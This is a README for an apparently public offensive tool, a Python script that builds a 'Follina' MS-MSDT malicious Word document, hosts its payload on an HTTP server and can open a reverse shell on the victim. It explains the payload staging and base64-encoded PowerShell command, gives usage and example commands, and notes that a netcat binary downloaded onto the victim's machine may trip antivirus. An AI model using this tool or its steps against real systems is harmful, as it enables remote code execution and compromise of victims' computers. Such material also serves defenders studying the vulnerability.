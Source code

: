 # MS-MSDT "Follina" Attack Vector

--------------


This Python script generates a maldoc, that executes a PowerShell command on the target machine. It also sets up an HTTP server to deliver the malicious payload to the target machine.

The script takes several arguments, including the command to be executed on the target machine, the name and location of the output maldoc file, the network interface or IP address to host the HTTP server, the port to serve the HTTP server, and the port to serve the reverse shell on.

The script first parses the supplied interface to determine what to reach out to. It then copies a Microsoft Word skeleton into a temporary staging folder, prepares a temporary HTTP server location, and modifies the Word skeleton to include the HTTP server. The script then rebuilds the original office file and creates the maldoc.

Next, the script encodes the PowerShell command as base64 and creates a unique MS-MSDT payload that is over 4096 bytes at minimum. It then creates an HTML endpoint and hosts the HTTP server on all interfaces.

If the user has specified a reverse shell, the script downloads and executes a Netcat binary to establish a reverse shell on the target machine. The script creates a new thread to host the HTTP server and starts it. The anti-virus on the target system can flag the Netcat binary being downloaded so be careful.



--------------

Create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

![Screenshot](https://user-images.githubusercontent.com/6288722/171033876-dbe73e3e-0a3a-436a-91d8-7fa77a5c1ace.png)

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `calc.exe`:

```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```
$ python3 follina.py -r 9001
```

![Reverse Shell](https://user-images.githubusercontent.com/6288722/171037880-03a73d6a-4606-4c42-abcb-ee52a9e669c6.png)
